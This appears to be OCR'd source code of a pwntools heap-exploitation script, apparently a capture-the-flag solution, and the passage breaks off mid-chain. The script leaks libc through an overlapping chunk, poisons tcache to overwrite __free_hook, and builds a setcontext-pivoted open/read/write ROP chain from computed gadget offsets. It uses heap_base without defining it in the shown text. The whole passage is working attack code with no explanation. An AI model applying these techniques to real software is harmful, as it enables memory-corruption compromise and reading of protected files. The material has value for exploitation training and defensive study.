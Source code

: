 ```python

# Make 0xf0 size chunk for free() 
Alloc(0x60, "\n")
Alloc(0x60, "\n")
Alloc(0x60, "\n")
Alloc(0x68, p64(0)*11+p64(0xf1))

# libc leak
Alloc(0xe0, "\n")
Alloc(0xe0, "A"*15+"\n")
View()
s.recvuntil("A"*15+"\n")
libc_leak = u64(s.recv(6)+b"\x00\x00")
libc_base = libc_leak - 0x1ecc40
free_hook = libc_base + libc.sym.__free_hook

print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

setcontext   = libc_base + libc.sym.setcontext
mov_rdx_rdi  = libc_base + 0x1518b0 # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20]; 
ret_addr     = libc_base + 0x22679  # ret;
syscall_ret  = libc_base + 0x630d9  # syscall; ret;
pop_rax_ret  = libc_base + 0x47400  # pop rax; ret;
pop_rdi_ret  = libc_base + 0x23b72  # pop rdi; ret;
pop_rsi_ret  = libc_base + 0x2604f  # pop rsi; ret;
pop_rdx_ret  = libc_base + 0x119241 # pop rdx; pop r12; ret;
xchg_eax_edi = libc_base + 0xf1b95  # xchg eax, edi; ret;

# Write __free_hook in tcachebins 
Free()
Alloc(0xe0, b"A"*0x78+p64(0x81)+p64(free_hook-0x10))

for i in range(5):
  Alloc(0x70, "\n")

# Write ROP chain of Open/Read/Write in heap memory
buf  = b"A"*0x20
buf += p64(setcontext+61)
buf += b"B"*0x78
buf += p64(heap_base + 0x2370) # rsp
buf += p64(ret_addr)           # rcx  
buf += p64(pop_rax_ret)
buf += p64(2)
buf += p64(pop_rdi_ret)
buf += p64(heap_base + 0x2418)
buf += p64(pop_rsi_ret)
buf += p64(0)
buf += p64(syscall_ret)
buf += p64(pop_rdi_ret)
buf += p64(0)
buf += p64(xchg_eax_edi)
buf += p64(pop_rsi_ret)
buf += p64(heap_base + 0x4000)
buf += p64(pop_rdx_ret)
buf += p64(0x80)
buf += p64(0)
buf += p64(syscall_ret)
buf += p64(pop_rax_ret)
buf += p64(1)
buf += p64(pop_rdi_ret)
buf += p64(1)
```